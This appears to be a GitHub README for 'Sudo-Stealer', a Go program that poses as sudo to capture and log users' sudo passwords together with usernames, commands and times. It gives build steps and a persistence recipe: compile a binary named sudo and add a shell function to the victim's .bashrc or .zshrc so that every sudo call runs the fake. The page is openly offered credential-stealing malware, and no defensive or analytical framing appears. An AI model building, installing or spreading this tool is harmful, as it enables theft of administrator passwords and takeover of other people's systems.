




# Sudo-Stealer

[](https://go.dev/)
[](https://github.com/gomods/athens)

Sudo-Stealer is an *nix program for stealing sudo passwords by disguising as the original sudo software. Its capabilities are almost similar to that of the original sudo program as such as displaying the same input messages, error messages like incorrect attempts and also handling of some system signals such as SIGQUIT, SIGINT & SIGTSTP. It verify the password, stores it in json support as well as username, the command that was executed and the execution time in a file for later usage.

It was tested on a linux specifically Kali linux :) but I think it's applicable on any *nix system because of their similarities while using shell or terminal.


## Requirements

Any *nix system with terminal & wget.

Golang 1.18.2 or higher.

If Golang not found. Install Golang with wget
```bash
  wget https://go.dev/dl/go1.18.x.linux-amd64.tar.gz
```
Extract to /usr/local/go directory/folder
```bash
   tar -C /usr/local -xzf go1.18.x.linux-amd64.tar.gz
```
Set your GOPATH 
```bash 
  export GOPATH=/any folder of your choice
```
Add your GO bin directory to PATH 
```bash
  export PATH=$PATH:/usr/local/go/bin 
```
But if Golang 1.18.2 or higher is found, then proceed

## Installation

Download with Git
```bash
  git clone https://github.com/Genaro-Chris/Sudo-Stealer
```
Compile to binary name `sudo`
```bash 
  cd Sudo-Stealer
  go build -o ./sudo .
```
or download pre-compiled binary from [here](https://github.com/Genaro-Chris/Sudo-Stealer/releases)


## Usage

Find your shell configuration file. It's usually a file in your home directory that ends with rc.

Examples 
```javascript
  .bashrc
  .cshrc
  .zshrc
```
Then add execute permission to the sudo executable
```bash
  chmod +x /path/to/sudo
```

Add the following line to the end of your shell configuration file.
```bash
  sudo() { /path/to/sudo "${@:1}" }
```


## Features

- Maximum of 3 wrong password attempts
- Timeouts the superuser session's after 15 minutes
- No need to enter password again after first correct attempt 
- Stores correct passwords with their respective commands and the time it was executed


## Screenshots










## Feedback

If you have any feedbacks, issues, code improvements of any sort, contributions, or even collaborations on any of your projects.

Please reach out to me at [here](mailto:christian25589@gmail.com)
